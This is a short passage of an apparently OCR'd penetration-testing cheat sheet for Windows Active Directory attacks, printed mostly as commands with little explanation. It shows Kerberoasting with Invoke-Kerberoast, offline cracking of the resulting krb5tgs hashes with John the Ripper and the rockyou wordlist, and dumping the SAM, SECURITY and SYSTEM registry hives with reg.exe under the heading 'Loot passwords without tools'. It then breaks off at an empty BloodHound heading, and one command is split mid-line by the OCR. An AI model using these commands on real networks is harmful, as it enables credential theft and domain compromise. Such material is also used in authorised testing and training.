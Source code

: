 ```bash
PS C:\Tools\active_directory> Invoke-Kerberoast -

OutputFormat john | Select-Object -ExpandProperty hash |% {$_.replace(':',':$krb5tgs$23$')}

sudo john --format=krb5tgs hash.txt --wordlist=/home/kali/rockyou.txt  #Use SMBserver to transfer hashes
```

## SAM

```bash
# Loot passwords without tools
reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system
```

# BloodHound Custom Cypher Queries
